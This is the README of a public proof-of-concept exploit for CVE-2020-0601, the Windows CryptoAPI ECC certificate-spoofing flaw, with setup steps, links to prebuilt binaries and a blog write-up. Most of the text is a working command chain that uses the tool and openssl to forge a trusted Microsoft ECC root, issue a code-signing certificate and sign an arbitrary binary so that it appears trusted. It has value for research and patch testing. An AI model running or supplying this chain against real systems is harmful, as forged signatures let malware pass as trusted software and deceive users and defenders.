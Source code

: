 # Curveball
A PoC for [CVE-2020-0601](https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2020-0601). A detailed blog post can be found [here](http://web.archive.org/web/20200224210145/https://blog.layle.io/uncovering-cve-2020-0601/). This exploit allows you to create a fake trusted certificate by abusing how CryptoAPI handles certain parameters on ECC based certificates.

## Setup
Clone the repository and open it in Visual Studio 2019. Switch to Release and compile it. You can find prebuilt binaries [here](https://github.com/ioncodes/Curveball/releases).

## Usage
```bash
.\Curveball.exe MicrosoftECCProductRootCertificateAuthority.cer MicrosoftECCProductRootCertificateAuthority_fake.key
# in linux bash (you can also use Windows but you'd have to get an alternative for osslsigncode). WSL on Windows works fine.
openssl req -new -x509 -key MicrosoftECCProductRootCertificateAuthority_fake.key -out trusted_ca.crt
openssl ecparam -name secp384r1 -genkey -noout -out cert.key
openssl req -new -key cert.key -out cert.csr -config openssl.conf -reqexts v3_cs
openssl x509 -req -in cert.csr -CA trusted_ca.crt -CAkey MicrosoftECCProductRootCertificateAuthority_fake.key -CAcreateserial -out cert.crt -days 10000 -extfile openssl.conf -extensions v3_cs
openssl pkcs12 -export -in cert.crt -inkey cert.key -certfile trusted_ca.crt -name "Code Signing" -out cert.p12
./osslsigncode sign -pkcs12 cert.p12 -n "Signed by Layle" -in <BINARY_TO_SIGN> -out <SIGNED_BINARY>
```

## Result
Note that the 7zip installer is usually not signed!

![trusted](https://github.com/ioncodes/Curveball/blob/master/images/trusted.png?raw=true)
